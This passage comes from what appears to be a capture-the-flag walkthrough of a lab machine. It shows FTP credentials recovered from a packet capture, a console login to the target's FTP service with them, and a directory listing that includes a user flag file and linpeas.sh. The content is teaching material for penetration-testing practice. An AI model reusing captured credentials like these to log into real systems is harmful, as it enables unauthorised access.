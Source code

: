 ![wireshark-1.png](./images/wireshark-1.png)
**Figure 6:** wireshark-1.png

```
USER nathan
PASS Buck3tH4TF0RM3!
```

Let's use these credentials to login to FTP.

```console
kali@kali:~$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password: Buck3tH4TF0RM3!
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
Now that we're in, let's see what's in here.

## User Flag

```console
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxr-x    1 1001     1001       473164 Sep 13 23:21 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 Sep 13 23:24 snap
-r--------    1 1001     1001           33 Sep 13 19:02 user.txt
226 Directory send OK.
```
